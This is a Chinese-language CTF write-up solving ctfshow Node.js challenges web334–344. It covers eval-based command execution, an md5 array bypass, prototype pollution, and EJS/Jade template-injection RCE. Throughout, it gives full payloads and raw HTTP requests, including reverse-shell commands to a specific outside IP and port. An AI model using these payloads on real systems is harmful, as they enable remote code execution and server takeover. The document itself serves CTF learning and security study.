







Nodejs是一个基于ChromeV8引擎的js运行环境，所以可以认为nodejs是一个JavaScript的解释器

## web334

一个登录界面,扫目录看到一个假的flag，有一个附件，用压缩包形式打开，有一个login.js和user.js

```javascript
//login.js
var express = require('express');
var router = express.Router();
var users = require('../modules/user').items;
 
var findUser = function(name, password){
  return users.find(function(item){
    return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;
  });
};

/* GET home page. */
router.post('/', function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var sess = req.session;
  var user = findUser(req.body.username, req.body.password);
 
  if(user){
    req.session.regenerate(function(err) {
      if(err){
        return res.json({ret_code: 2, ret_msg: '登录失败'});        
      }
       
      req.session.loginUser = user.username;
      res.json({ret_code: 0, ret_msg: '登录成功',ret_flag:flag});              
    });
  }else{
    res.json({ret_code: 1, ret_msg: '账号或密码错误'});
  }  
  
});

module.exports = router;

```

```javascript
//user.js
module.exports = {
  items: [
    {username: 'CTFSHOW', password: '123456'}
  ]
};
```

登录成功就有flag，我们先看一下代码

在登录界面使用findUser检测函数对输入的用户名和密码进行检测

```javascript
var findUser = function(name, password){
  return users.find(function(item){
    return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;
  });
};
```

这里的话要求用户名不能是CTFSHOW，但是会进行一个转大写的操作，然后第二行就是从user.js中取用户名和密码

所以直接传ctfshow就行

```
ctfshow
123456
```

## web335

### #nodejs的RCE

`where is flag?`

在源码找到一个参数`?eval=`，传入后有回显，可能是有回显的RCE或者SSTI猜测代码如下

```
eval(console.log(val eval))
```

然后我们去搜一下这个函数



所以我们传一个js代码看看，找找有没有RCE的函数

在 Node.js 中，执行系统命令主要通过 `child_process` 模块实现。我们看看这个模块下的`execSync`函数



那我们试一下

```
?eval=require(%27child_process%27).execSync('ls')
```

然后就看到flag文件了，直接读就行

当然也可以用另一个函数spawnSync

```
?eval=require("child_process").spawnSync('ls',['./']).stdout.toString()
?eval=require("child_process").spawnSync('cat',['./f*']).stdout.toString()
```

之前不是说可能是ssti嘛，然后我测出来也存在SSTI

## web336

过滤了exec，用spawnSync就行



需要注意这里因为返回值不是字符串而是数组，所以需要转为字符串输出

```
?eval=require("child_process").spawnSync('cat',['./f*']).stdout.toString()
```

## web337

```javascript
var express = require('express');
var router = express.Router();
var crypto = require('crypto');

function md5(s) {
  return crypto.createHash('md5')
    .update(s)
    .digest('hex');
}

/* GET home page. */
router.get('/', function(req, res, next) {
  res.type('html');
  var flag='xxxxxxx';
  var a = req.query.a;
  var b = req.query.b;
  if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
  	res.end(flag);
  }else{
  	res.render('index',{ msg: 'tql'});
  }
  
});

module.exports = router;
```

一个md5强比较，用数组去绕过就可以了

```
?a[:]=1&b[:]=1
```

## web338

### #原型链污染

有源码，审计一下

在utils目录下common.js文件中发现有合并函数

```javascript


module.exports = {
  copy:copy
};

function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }
```

然后我们看一下登录逻辑

```javascript
//login.js
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');


/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
  
  
});

module.exports = router;

```

这里的话定义了两个空对象，然后会解析我们请求体中的json数据，然后传入req.body进行合并，之后访问secert的ctfshow属性，直接污染他的原型就行

所以这是一个很简单的nodejs原型链污染

本地测试一下

```javascript
function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
}

var user = {}
var secret = {}

var a = JSON.parse('{"__proto__":{"ctfshow" : "36dboy"}}')

copy(user,a)
console.log(secret.ctfshow)
//36dboy

```

然后直接污染

```
POST /login HTTP/1.1
Host: c13e35ba-bf86-473d-9015-37157246936f.challenge.ctf.show
Connection: keep-alive
Content-Length: 31
sec-ch-ua-platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
sec-ch-ua: "Chromium";v="136", "Google Chrome";v="136", "Not.A/Brand";v="99"
Content-Type: application/json
sec-ch-ua-mobile: ?0
Origin: https://c13e35ba-bf86-473d-9015-37157246936f.challenge.ctf.show
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://c13e35ba-bf86-473d-9015-37157246936f.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Cookie: cf_clearance=ZuK66QChNGftyyiGS39xGqXjRvrgqwc7dpOpwNp8hgY-1747317016-1.2.1.1-SHtYMtmhonoQh3f9JFLxlX5e8ZPl2H.d.1t6d9JUkU8A48zWJ8kwl3L9eAExpcFayYenFfR8OxZ7NWlafUA3eW..1Ql.yEeMVQsO2dN0LeOWb9v9mBTw9f9lNiJBsuz0wNfBuxQoVypAzPhH9KeUpkB22hemlwS35.DR.pfloutzMUBCc7K.SMPWBv0hD22WPrXL6TOwx.8Vlv0exiJGfJydMDF8Fmgi7BwFDHfm8A27bqv1xzCh1xdEneeUo.dok_1cBQWYDpbP2ClHu0miDKBW2hnvhGXG7HbMovGYSE3c1QFXa0TPiCQYSEXDX_10Bnlxz9QrXZujCxO7ZGcQA_vDxzoYodJRpDZrLpAsbq8


{"__proto__":{"ctfshow":"36dboy"}}
```

## web339

### #原型链污染RCE

看一下登录逻辑

```javascript
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');

function User(){
  this.username='';
  this.password='';
}
function normalUser(){
  this.user
}


/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow===flag){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
  
  
});

module.exports = router;
```

这里的话显然满足不了if语句，另外还发现了一个api.js

```javascript
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');


/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  res.render('api', { query: Function(query)(query)});
   
});

module.exports = router;

```

这里也有json处理数据的路由，既然会渲染api，那么我们污染一下里面的query参数去打rce

关于Function函数



可以打反弹shell，这样刚方便

```
{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/[vps-ip]/[port] 0>&1\"')"}}
```

```
POST /login HTTP/1.1
Host: d0cac15b-62ce-4473-a77f-fad68c73c708.challenge.ctf.show
Connection: keep-alive
Content-Length: 31
sec-ch-ua-platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
sec-ch-ua: "Chromium";v="136", "Google Chrome";v="136", "Not.A/Brand";v="99"
Content-Type: application/json
sec-ch-ua-mobile: ?0
Origin: https://d0cac15b-62ce-4473-a77f-fad68c73c708.challenge.ctf.show
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://d0cac15b-62ce-4473-a77f-fad68c73c708.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Cookie: cf_clearance=ZuK66QChNGftyyiGS39xGqXjRvrgqwc7dpOpwNp8hgY-1747317016-1.2.1.1-SHtYMtmhonoQh3f9JFLxlX5e8ZPl2H.d.1t6d9JUkU8A48zWJ8kwl3L9eAExpcFayYenFfR8OxZ7NWlafUA3eW..1Ql.yEeMVQsO2dN0LeOWb9v9mBTw9f9lNiJBsuz0wNfBuxQoVypAzPhH9KeUpkB22hemlwS35.DR.pfloutzMUBCc7K.SMPWBv0hD22WPrXL6TOwx.8Vlv0exiJGfJydMDF8Fmgi7BwFDHfm8A27bqv1xzCh1xdEneeUo.dok_1cBQWYDpbP2ClHu0miDKBW2hnvhGXG7HbMovGYSE3c1QFXa0TPiCQYSEXDX_10Bnlxz9QrXZujCxO7ZGcQA_vDxzoYodJRpDZrLpAsbq8

{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/124.223.25.186/1234 0>&1\"')"}}
```

然后监听端口再POST访问api接口就行了，弹上后flag在env环境变量中，不过我发现在login.js中也有



## web340



很明显这里覆盖不现实，还是直接原型链污染打rce

```javascript
utils.copy(user.userinfo,req.body);
```

但是这里需要污染两层，调试就可以的出来

```javascript
function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
}
var user = new function(){
    this.userinfo = new function(){
        this.isVIP = false;
        this.isAdmin = false;
        this.isAuthor = false;
    };
}
body=JSON.parse('{"__proto__":{"__proto__":{"query":"123"}}}');
copy(user.userinfo,body);
console.log(user.userinfo);
console.log(user.query);
//{ isVIP: false, isAdmin: false, isAuthor: false }
//123
```

可以看到这里污染成功了，直接打就行

```
POST /login HTTP/1.1
Host: c845fec7-1342-42ff-a2fe-aede5313fce6.challenge.ctf.show
Connection: keep-alive
Content-Length: 31
sec-ch-ua-platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
sec-ch-ua: "Chromium";v="136", "Google Chrome";v="136", "Not.A/Brand";v="99"
Content-Type: application/json
sec-ch-ua-mobile: ?0
Origin: https://c845fec7-1342-42ff-a2fe-aede5313fce6.challenge.ctf.show
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://c845fec7-1342-42ff-a2fe-aede5313fce6.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Cookie: cf_clearance=ZuK66QChNGftyyiGS39xGqXjRvrgqwc7dpOpwNp8hgY-1747317016-1.2.1.1-SHtYMtmhonoQh3f9JFLxlX5e8ZPl2H.d.1t6d9JUkU8A48zWJ8kwl3L9eAExpcFayYenFfR8OxZ7NWlafUA3eW..1Ql.yEeMVQsO2dN0LeOWb9v9mBTw9f9lNiJBsuz0wNfBuxQoVypAzPhH9KeUpkB22hemlwS35.DR.pfloutzMUBCc7K.SMPWBv0hD22WPrXL6TOwx.8Vlv0exiJGfJydMDF8Fmgi7BwFDHfm8A27bqv1xzCh1xdEneeUo.dok_1cBQWYDpbP2ClHu0miDKBW2hnvhGXG7HbMovGYSE3c1QFXa0TPiCQYSEXDX_10Bnlxz9QrXZujCxO7ZGcQA_vDxzoYodJRpDZrLpAsbq8

{"__proto__":{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/124.223.25.186/1234 0>&1\"')"}}}
```

后面的就一样了

## web341

### #ejs模板注入RCE

这次在index.js中没有函数调用了，但是在app.js中发现是ejs的模板引擎



我们跟进ejs.js文件的readFile函数

```javascript
exports.renderFile = function () {
  var args = Array.prototype.slice.call(arguments);//将arguments转为数组
  var filename = args.shift();
  var cb;
  var opts = {filename: filename};
  var data;
  var viewOpts;

  // Do we have a callback?
  if (typeof arguments[arguments.length - 1] == 'function') {
    cb = args.pop();
  }
  // Do we have data/opts?
  if (args.length) {
    // Should always have data obj
    data = args.shift();
    // Normal passed opts (data obj + opts obj)
    if (args.length) {
      // Use shallowCopy so we don't pollute passed in opts obj with new vals
      utils.shallowCopy(opts, args.pop());
    }
    // Special casing for Express (settings + opts-in-data)
    else {
      // Express 3 and 4
      if (data.settings) {
        // Pull a few things from known locations
        if (data.settings.views) {
          opts.views = data.settings.views;
        }
        if (data.settings['view cache']) {
          opts.cache = true;
        }
        // Undocumented after Express 2, but still usable, esp. for
        // items that are unsafe to be passed along with data, like `root`
        viewOpts = data.settings['view options'];
        if (viewOpts) {
          utils.shallowCopy(opts, viewOpts);
        }
      }
      // Express 2 and lower, values set in app.locals, or people who just
      // want to pass options in their data. NOTE: These values will override
      // anything previously set in settings  or settings['view options']
      utils.shallowCopyFromList(opts, data, _OPTS_PASSABLE_WITH_DATA_EXPRESS);
    }
    opts.filename = filename;
  }
  else {
    data = {};
  }

  return tryHandleCache(opts, data, cb);
};
```

在 EJS（Embedded JavaScript）模板引擎中，renderFile() 是一个用于加载和渲染模板文件的方法。它通常与 Express 框架一起使用。

renderFile() 方法的作用是读取指定的 EJS 模板文件，并将数据填充到模板中生成最终的 HTML 内容。这个方法多用于将动态数据注入到模板中，以生成动态的网页内容

最后会返回tryHandleCache函数的值，从代码中可以看到，如果我们能控制返回的结果，是不是就可以进行攻击注入呢？，我们跟进这个函数看下

```javascript
function tryHandleCache(options, data, cb) {
  var result;
  if (!cb) {
    if (typeof exports.promiseImpl == 'function') {
      return new exports.promiseImpl(function (resolve, reject) {
        try {
          result = handleCache(options)(data);
          resolve(result);
        }
        catch (err) {
          reject(err);
        }
      });
    }
    else {
      throw new Error('Please provide a callback function');
    }
  }
  else {
    try {
      result = handleCache(options)(data);
    }
    catch (err) {
      return cb(err);
    }

    cb(null, result);
  }
}
```

这里无论如何都会利用handleCache渲染模板，我们跟进handleCache函数看看

```javascript
function handleCache(options, template) {
  var func;
  var filename = options.filename;
  var hasTemplate = arguments.length > 1;

  if (options.cache) {
    if (!filename) {
      throw new Error('cache option requires a filename');
    }
    func = exports.cache.get(filename);
    if (func) {
      return func;
    }
    if (!hasTemplate) {
      template = fileLoader(filename).toString().replace(_BOM, '');
    }
  }
  else if (!hasTemplate) {
    // istanbul ignore if: should not happen at all
    if (!filename) {
      throw new Error('Internal EJS error: no file name or template '
                    + 'provided');
    }
    template = fileLoader(filename).toString().replace(_BOM, '');
  }
  func = exports.compile(template, options);
  if (options.cache) {
    exports.cache.set(filename, func);
  }
  return func;
}
```

这个函数的返回值是`func`，而`func`是` exports.compile(template, options)`的返回值,我们跟进complie函数


如果能够覆盖 `opts.outputFunctionName` , 这样我们构造的payload就会被拼接进js语句中，并在 ejs 渲染时进行 RCE

```javascript
prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
```

例如我们拼接命令语句

```javascript
prepended += '  var ' + return outputFunctionName":"__tmp1;global.process.mainModule.require(\'chile_process\').execSync(\'ls\');var __tmp2 + ' = __append;' + '\n';
```

前后分别给出一个变量，中间插入我们的命令执行语句，当然后面的也可以直接注释掉

所以我们可以传入opts.outputFunctionName的值为

```javascript
return outputFunctionName":"__tmp1;global.process.mainModule.require(\'chile_process\').execSync(\'ls\');var __tmp2
```

这时候就需要用原型链污染了，将outputFunctionName的值污染一下就可以实现RCE了

本地写一下链子

```javascript
var user = new function() {
    this.userinfo = new function (){
        this.isVIP = false;
        this.isAdmin = false;
        this.isAuthor = false;
    }
}
function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
}

var a = JSON.parse('{"__proto__":{"__proto__":{"outputFunctionName":"_tmp1;return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/124.223.25.186/1234 0>&1\"');var __tmp2"}}}')
copy(user.userinfo,a);
console.log(user.outputFunctionName);
```

传入json后污染成功就访问根目录返回渲染就能弹上了

## web342&343

### #jade模板注入RCE

jade引擎的RCE，在js原型链文章中进行了相应的分析，这里直接给payload了

```
{"__proto__":{"__proto__":{"type":"Block","nodes":"","compileDebug":1,"self":1,"line":"global.process.mainModule.constructor._load('child_process').execSync('bash -c \"bash -i >& /dev/tcp/vps-ip/port 0>&1\"')"}}}
```

## web344

```javascript
router.get('/', function(req, res, next) {
  res.type('html');
  var flag = 'flag_here';
  if(req.url.match(/8c|2c|\,/ig)){
  	res.end('where is flag :)');
  }
  var query = JSON.parse(req.query.query);
  if(query.name==='admin'&&query.password==='ctfshow'&&query.isVIP===true){
  	res.end(flag);
  }else{
  	res.end('where is flag. :)');
  }

});
```

需要绕过逗号和c，用编码和分段传参就行

```
/?query={"name":"admin"&query="password":"%63tfshow"&query="isVIP":true}
/?query={"name":"admin"&query="password":"\u0063tfshow"&query="isVIP":true}
```
